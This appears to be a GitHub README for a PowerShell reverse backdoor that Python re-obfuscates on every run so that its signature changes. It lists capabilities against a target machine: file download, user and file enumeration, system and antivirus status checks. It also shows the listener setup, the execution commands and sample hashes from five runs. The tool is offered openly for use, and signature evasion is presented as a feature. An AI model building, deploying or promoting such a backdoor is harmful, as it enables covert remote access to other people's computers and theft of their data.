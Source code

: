 # powershell-backdoor
Reverse Backdoor written in Powershell and obfuscated with python. Allowing the backdoor to have a new signature after every run.

# Preview
![preview](preview.PNG)
<br>
# Features / To Do
## Features 
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed

# Setup
Don't change the code inside template.ps1, instead run listen.py
```
PS C:\Users\DrewQ\Desktop> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:02cf166bbe6fdf8f3db4d3e6d04e5e2cf8b98a6b
[*] Starting Backdoor Listener 192.168.0.223:4444
```
No arguments are required, backdoor.ps1 will be dropped in the current working directory.

# Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```

## To Do 
* Add Standard Backdoor
* Find Writeable Directories
* Get Windows Update Status


## Output of 5 obfuscations/Runs 
```
sha1:c7a5fa3e56640ce48dcc3e8d972e444d9cdd2306
sha1:b32dab7b26cdf6b9548baea6f3cfe5b8f326ceda
sha1:e49ab36a7ad6b9fc195b4130164a508432f347db
sha1:ba40fa061a93cf2ac5b6f2480f6aab4979bd211b
sha1:f2e43320403fb11573178915b7e1f258e7c1b3f0
```
